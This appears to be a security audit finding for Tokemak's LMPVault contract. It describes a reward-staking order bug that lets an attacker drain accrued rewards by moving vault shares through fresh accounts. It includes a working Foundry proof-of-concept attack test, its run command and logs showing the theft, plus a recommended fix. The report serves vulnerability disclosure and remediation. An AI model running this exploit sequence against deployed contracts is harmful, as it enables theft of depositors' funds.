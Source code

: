 Rural Saffron Dinosaur

high

# Attacker can steal LMPVault's reward by keep transferring LMPVault's share to attacker's another accounts
## Summary

Due to wrongly placed `rewarder.stake` inside LMPVault, user can abuse this to drain LMPVault's rewards.

## Vulnerability Detail

It can be observed that LMPVault update users reward stake inside `_afterTokenTransfer` (will be triggered when mint or transfer functions triggered) : 

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L854-L865

```solidity
    function _afterTokenTransfer(address from, address to, uint256 amount) internal virtual override {
        // Nothing to do really do here
        if (from == to) {
            return;
        }

        // If this isn't a burn, then the recipient should be earning in the rewarder
        // "Stake" the tokens there so they start earning
        if (to != address(0)) {
            rewarder.stake(to, amount);
        }
    }
```

inside `rewarder.stake`, it will call `_updateReward` : 

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L86-L93

```solidity
    function stake(address account, uint256 amount) public onlyStakeTracker {
        _updateReward(account);
        _stake(account, amount);

        for (uint256 i = 0; i < extraRewards.length; ++i) {
            IExtraRewarder(extraRewards[i]).stake(account, amount);
        }
    }
```

Inside `_updateReward`, it will update users `rewards` based on users LMPVault shares and also update users `userRewardPerTokenPaid` : 

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128-L140 

```solidity
    function _updateReward(address account) internal {
        uint256 earnedRewards = 0;
        rewardPerTokenStored = rewardPerToken();
        lastUpdateBlock = lastBlockRewardApplicable();

        if (account != address(0)) {
            earnedRewards = earned(account);
            rewards[account] = earnedRewards;
            userRewardPerTokenPaid[account] = rewardPerTokenStored;
        }

        emit UserRewardUpdated(account, earnedRewards, rewardPerTokenStored, lastUpdateBlock);
    }
```

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L204-L206

```solidity
    function earned(address account) public view returns (uint256) {
        return (balanceOf(account) * (rewardPerToken() - userRewardPerTokenPaid[account]) / 1e18) + rewards[account];
    }
```

The problem is this `rewarder.stake` called **after** the receiving address balance is updated, if `rewardPerToken()` already non zero and the account is never update ` userRewardPerTokenPaid` (first time stake), the reward will be given instantly.


## Impact

When `rewardPerToken()` already non zero, this will allow attacker to easily drain the rewards by depositing to LMPVault, and keep transferring the LMPVault's shares to fresh attacker accounts, and finally redeem his shares to get base asset back (optional), all operation can be done inside one block. 

Foundry PoC : 

Add this test to `LMPVaultMintingTests` contract and add `import "forge-std/console.sol";` inside `test/vaults/LMPVault-withdraw.t.sol` file. 

```solidity
	function test_steal_reward_attack() public {
		// ADMIN INITIAL LMP VAULT DEPOSIT AND reward SETUP
		_asset.mint(address(this), 10000);
		_asset.approve(address(_lmpVault), 10000);
		assertEq(_lmpVault.balanceOf(address(this)), 0);
		assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

		_accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
		_lmpVault.rewarder().addToWhitelist(address(this));
		_toke.mint(address(this), 1000e18);
		_toke.approve(address(_lmpVault.rewarder()), 1000e18);
		_lmpVault.rewarder().queueNewRewards(1000e18);
		uint256 shares = _lmpVault.deposit(10000, address(this));
		// this to make rewardPerToken non-zero
		vm.roll(block.number + 100);
		assertEq(shares, 10000);
		assertEq(_lmpVault.balanceOf(address(this)), 10000);
		assertEq(_lmpVault.rewarder().balanceOf(address(this)), 10000);
		assertEq(_lmpVault.rewarder().earned(address(this)), 1000e18, "earned");
		assertEq(_toke.balanceOf(address(this)), 0);
		console.log("balance of toke inside the rewarder before :");
		console.log(_toke.balanceOf(address(_lmpVault.rewarder())));
		// HACKER STEAL REWARD
		address hacker = makeAddr("hacker");
		address hacker2 = makeAddr("hacker2");
                address hacker3 = makeAddr("hacker3");
		vm.startPrank(hacker);
		_asset.mint(hacker, 5000);
		_asset.approve(address(_lmpVault), 5000);
                console.log("balance of attacker's base asset before attack");
                console.log(_asset.balanceOf(hacker));
		uint256 sharesHacker = _lmpVault.deposit(5000, hacker);
                _lmpVault.transfer(hacker2,_lmpVault.balanceOf(hacker));
                vm.stopPrank();
                vm.startPrank(hacker2);
                _lmpVault.transfer(hacker3,_lmpVault.balanceOf(hacker2));
                vm.startPrank(hacker3);
                _lmpVault.rewarder().getReward();
                _lmpVault.redeem(_lmpVault.balanceOf(hacker3), hacker, hacker3);
                console.log("balance of toke inside the rewarder after :");
	       console.log(_toke.balanceOf(address(_lmpVault.rewarder())));
               console.log("balance of attacker's base asset after attack");
               console.log(_asset.balanceOf(hacker));
               console.log("balance of reward hacker account 1 :");
	       console.log(_toke.balanceOf(hacker));
	       console.log("balance of reward hacker account 2 :");
	       console.log(_toke.balanceOf(hacker2));
               console.log("balance of reward hacker account 3 :");
	       console.log(_toke.balanceOf(hacker3));

	}
```

Run the test : 

```shell
forge test --match-contract LMPVaultMintingTests --match-test test_steal_reward_attack -vvv
```

Log output : 

```diff
Logs:
  balance of toke inside the rewarder before :
  1000000000000000000000
  balance of attacker's base asset before attack
  5000

  balance of toke inside the rewarder after :
  1
  balance of attacker's base asset after attack
  5000
  balance of reward hacker account 1 :
  333333333333333333333
  balance of reward hacker account 2 :
  333333333333333333333
  balance of reward hacker account 3 :
  333333333333333333333
```

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L854-L865

## Tool used

Manual Review

## Recommendation

Move `rewarder.stake` of `to` address inside `_beforeTokenTransfer` operation and remove `_afterTokenTransfer` : 

```diff
	function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
		// Nothing to do really do here
		if (from == to) {
			return;
		}

		// If this isn't a mint of new tokens, then they are being transferred
		// from someone who is "staked" in the rewarder. Make sure they stop earning
		// When they transfer those funds
		if (from != address(0)) {
			rewarder.withdraw(from, amount, true);
		}

+		if (to != address(0)) {
+			rewarder.stake(to, amount);
+		}

		// Make sure the destination wallet total share balance doesn't go above the
		// current perWalletLimit
		if (balanceOf(to) + amount > perWalletLimit) {
			revert OverWalletLimit(to);
		}
	}
```

